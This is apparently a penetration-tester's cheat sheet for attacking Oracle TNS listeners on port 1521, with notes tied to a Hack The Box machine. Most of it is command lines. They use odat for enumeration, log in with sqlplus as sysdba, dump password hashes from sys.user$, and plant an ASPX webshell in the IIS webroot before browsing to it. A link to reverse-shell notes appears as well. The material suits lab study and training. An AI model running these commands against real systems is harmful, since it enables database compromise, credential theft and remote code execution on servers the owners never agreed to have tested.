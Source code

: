  Client-side Oracle Net Services software uses the `tnsnames.ora` file to resolve service names to network addresses, while the listener process uses the `listener.ora` file to determine the services it should listen to and the behavior of the listener.


#### Oracle  Tools
```bash - kali
sudo apt install odat
```

```bash - kali
sudo apt install sqlplus
```

#### Enumeration
```bash - kali
sudo odat all -s $TARGET -p 1521
```

#### Log in with Credentials found 
```bash - kali
sqlplus $USERNAME/$PASWWORD@$TARGET:1521/XE
```


ERROR:

`sqlplus: error while loading shared libraries: libsqlplus.so: cannot open sh ared object file: No such file or directory`

```bash - kali
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```


#### Enumeration

```oracle - sql
select table_name from all_tables;
```

```oracle - sql
select * from user_role_privs;
```

System Database Admin (sysdba), giving us higher privileges
```bash - kali
sqlplus $USERNAME/$PASWWORD@$TARGET:1521/XE as sysdba
```
To confirm privileges 
```oracle - sql
select * from user_role_privs;
```
To Extract Password Hashes 
```
 select name, password from sys.user$;
```


#### File Upload

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|



```bash - kali
odat all -s $TARGET -d XE -U SCOTT -P tiger --sysdba
```

```bash - kali
odat dbmsxslprocessor --sysdba -s $TARGET -U $USERNAME -P $PASSWORD -d XE --putFile "C:\\inetpub\\wwwroot\\" "test.txt" "/home/kali/Desktop/HTB/test.txt" 
```

```bash - kali
cp /usr/share/webshells/aspx/cmdasp.aspx .
```

```bash - kali
odat dbmsxslprocessor --sysdba -s $TARGET -U scott -P tiger -d XE --putFile "C:\\inetpub\\wwwroot\\" "cmdasp.aspx" "/home/kali/Desktop/HTB/Silo/cmdasp.aspx"
```

```html - firefox
http://10.129.95.188/cmdasp.aspx
```

![[rlwrap]]

![[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

